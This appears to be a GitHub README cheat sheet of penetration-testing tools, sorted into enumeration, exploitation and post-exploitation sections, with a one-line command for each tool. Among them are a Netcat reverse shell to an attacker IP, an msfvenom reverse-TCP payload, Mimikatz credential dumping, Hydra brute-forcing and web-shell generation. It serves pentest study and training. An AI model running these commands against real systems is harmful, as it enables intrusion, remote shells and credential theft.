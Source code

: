 # Tools

[![My Shop](https://img.shields.io/badge/My%20Shop-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech/extras)
[![Medium](https://img.shields.io/badge/Medium-%40verylazytech-%231572B6?style=flat&logo=medium&logoColor=white)](https://medium.com/@verylazytech)
[![Github](https://img.shields.io/badge/Github-verylazytech-%23181717?style=flat&logo=github&logoColor=white)](https://github.com/verylazytech)
[![Buy Me A Coffee](https://img.shields.io/badge/Buy%20Me%20A%20Coffee-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech)
[![My GitBook](https://img.shields.io/badge/My%20GitBook-VeryLazyTech-%23FFDD00?style=flat&logo=gitbook&logoColor=white)](https://www.verylazytech.com)
[![X](https://img.shields.io/twitter/url?url=https%3A%2F%2Fx.com%2Fverylazytech)](https://x.com/verylazytech)

## Enumeration Tools

These tools are essential for gathering information about the target system, such as open ports, services, and potential vulnerabilities.

- **[Nmap](https://nmap.org/)**: A powerful network scanning tool used to discover hosts, services, and vulnerabilities.
  - Command: `nmap -sC -sV -oA scan_results <target_ip>`
  
- **[Nikto](https://cirt.net/Nikto2)**: A web server scanner that identifies various vulnerabilities like outdated software, security misconfigurations, and common web server issues.
  - Command: `nikto -h <target_ip>`

- **[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)/[Dirsearch](https://github.com/maurosoria/dirsearch)**: Tools used to perform directory and file brute-forcing on web servers.
  - Command: `dirb http://<target_ip>/`

- **[Gobuster](https://github.com/OJ/gobuster)**: A tool for directory and DNS busting, often used for finding hidden directories or subdomains.
  - Command: `gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt`

- **[Enum4linux](https://github.com/CiscoCXSecurity/enum4linux)**: A Linux tool used to gather information from Windows machines using SMB.
  - Command: `enum4linux -a <target_ip>`

- **[SMBclient](https://linux.die.net/man/1/smbclient)**: A client for accessing shared folders on Windows machines via SMB.
  - Command: `smbclient //target_ip/share -U username`

- **[Netcat](https://nmap.org/ncat/)**: A versatile networking tool used for connecting to remote systems and debugging or scanning networks.
  - Command: `nc -lvp 4444` (for listening on a local port)

- **[Netdiscover](https://github.com/alexxy/netdiscover)**: A tool for discovering hosts in a local network via ARP requests.
  - Command: `netdiscover -r 192.168.1.0/24`

- **[WhatWeb](https://github.com/urbanadventurer/WhatWeb)**: A web application fingerprinting tool to identify technologies and services in use on web servers.
  - Command: `whatweb <target_ip>`

## Exploitation Tools

These tools are used for exploiting known vulnerabilities or misconfigurations in systems and applications.

- **[Metasploit Framework](https://www.metasploit.com/)**: A powerful exploitation framework used for automating the process of exploiting vulnerabilities.
  - Command: `msfconsole`

- **[SQLmap](http://sqlmap.org/)**: A tool for automating SQL injection and database takeover.
  - Command: `sqlmap -u "http://<target_ip>/page?id=1" --dbs`

- **[Hydra](https://github.com/vanhauser-thc/thc-hydra)**: A tool used for brute-force attacks against services like SSH, FTP, HTTP, and more.
  - Command: `hydra -l <username> -P <password_list> ssh://<target_ip>`

- **[John the Ripper](https://www.openwall.com/john/)**: A password cracking tool used to break hashes from various services (including Linux, Windows, and more).
  - Command: `john --wordlist=<password_list> <hash_file>`

- **[Mimikatz](https://github.com/gentilkiwi/mimikatz)**: A tool for extracting passwords and other credentials from Windows systems, including Kerberos tickets and clear-text passwords.
  - Command: `mimikatz.exe sekurlsa::logonPasswords`

- **[MSFvenom](https://www.metasploit.com/)**: A part of the Metasploit framework used to generate payloads for various platforms.
  - Command: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > payload.exe`

- **[Responder](https://github.com/SpiderLabs/Responder)**: A tool used to poison network traffic and capture login credentials via LLMNR, NBT-NS, and DNS poisoning.
  - Command: `responder -I eth0`

- **[Empire](https://github.com/EmpireProject/Empire)**: A post-exploitation framework that includes PowerShell agents for lateral movement and persistence.
  - Command: `python2 empire`

- **[BeEF (Browser Exploitation Framework)](https://github.com/beefproject/beef)**: A tool used to launch attacks from the browser context by exploiting vulnerabilities in web applications.
  - Command: `./beef`

## Post-Exploitation Tools

These tools are used after successful exploitation to maintain persistence, escalate privileges, and gather further information from compromised systems.

- **[Netcat](https://nmap.org/ncat/)**: Can also be used during post-exploitation for creating reverse shells and tunneling data.
  - Command: `nc -e /bin/bash <attacker_ip> <port>`

- **[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)**: A collection of PowerShell scripts for post-exploitation activities, including privilege escalation, credential dumping, and more.
  - Command: `import-module PowerSploit`

- **[Weevely](https://github.com/epinna/weevely3)**: A web shell that allows remote access and manipulation of compromised web servers.
  - Command: `weevely generate <password> <webshell_location>`

- **[Powershell Empire](https://github.com/EmpireProject/Empire)**: A post-exploitation tool using PowerShell for pivoting, credential harvesting, and data exfiltration.
  - Command: `python2 empire`

- **[TheFatRat](https://github.com/Screetsec/TheFatRat)**: A tool for creating various types of malicious payloads, which can include reverse shells, Trojans, and more.
  - Command: `./setup.sh`

- **[Chisel](https://github.com/jpillora/chisel)**: A fast TCP/UDP tunnel over HTTP, useful for tunneling traffic through firewalls.
  - Command: `./chisel client <target_ip>:<port> <local_port>:<remote_port>`

- **[PrivescCheck](https://github.com/itm4n/PrivescCheck)**: A tool for checking possible privilege escalation vectors on Windows systems.
  - Command: `PrivescCheck.exe`

- **[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**: A Linux privilege escalation script that checks for common misconfigurations and vulnerabilities.
  - Command: `./linpeas.sh`

- **[LinEnum](https://github.com/rebootuser/LinEnum)**: A script that automates the process of enumerating system information and potential privilege escalation vectors in Linux environments.
  - Command: `./linenum.sh`
